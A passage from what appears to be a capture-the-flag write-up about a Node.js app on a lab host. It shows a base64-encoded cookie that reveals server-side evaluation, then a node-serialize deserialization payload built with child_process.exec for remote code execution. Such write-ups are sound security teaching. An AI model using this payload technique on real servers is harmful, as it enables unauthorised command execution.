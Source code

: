 </body>
</html>
{% endhighlight %}

On the other hand, if we send following as a payload, we don't get this syntax error
{% highlight console %}
root@kali:~# echo -n '{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2+2"}' | base64
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVt
YiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrMiJ9
{% endhighlight %}
{% highlight console %}
root@kali:~# curl http://10.10.10.85:3000 -i --cookie 'profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIrMiJ9'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 25
ETag: W/"19-TNVBDF0e2JD28Mnzt96ajQ0A3vw"
Date: Fri, 04 Oct 2019 15:37:37 GMT
Connection: keep-alive

Hey Dummy 2+2 + 2+2 is 26
{% endhighlight %}

This means the value of "num" is not used as strings and is used as an argument of eval() or something.<br>
More precisely, the value of "num" is serialized on the web server.<br>
Then, google like following. We can find this blog <a href="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/">Exploiting Node.js deserialization bug for Remote Code Execution</a>
{% highlight console %}
nodejs serialization exploit
{% endhighlight %}

According to that blog, to build the payload for RCE, we need following node.js code and run it.
{% highlight console %}
root@kali:~# cat buildRCE.js 
var y = {
 rce : function(){
 require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
{% endhighlight %}
{% highlight shell %}
root@kali:~# node buildRCE.js 
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('uname -a', function(error, stdout, stderr) { console.log(stdout) });\n }"}
{% endhighlight %}
